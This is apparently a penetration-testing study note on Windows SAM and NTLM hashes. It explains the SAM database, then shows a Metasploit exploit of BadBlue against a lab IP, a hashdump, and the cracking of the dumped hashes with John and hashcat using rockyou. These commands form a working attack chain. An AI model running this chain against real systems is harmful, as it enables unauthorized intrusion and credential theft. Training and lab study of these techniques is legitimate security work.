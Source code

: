 #### Definition

* The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
* Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
* Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).
* Windows versions up to Windows Server 2003 utilize two differents types of hashes :
  * LM
  * NTLM
* Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.

#### SAM database

* SAM is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
* The SAM database file cannot be copied while the OS is running.
* The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
* In modern versions of Windows, the SAM database is encrypted with a syskey.

\*Note: elevated/administrative privileges are required in order to access and interact the LSASS process.

```bash
msf6> use exploit/windows/http/badblue_passthru
msf6> set rhosts 10.3.30.237
msf6> run
meterpreter> hashdump
```

The hashes are :

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Paste this content in a file named `hashes` then run the below command.

#### John The Reaper

```bash
kali@kali> john --format=NT hashes
```

#### Hashcat

```bash
kali@kali> gzip -d /usr/share/wordlists/rockyou.txt.gz
kali@kali> hashcat -a 0 -m 1000 hashes -w /usr/share/wordlists/rockyou.txt
```

The credentials are `administrator:password` `bob:password1`.
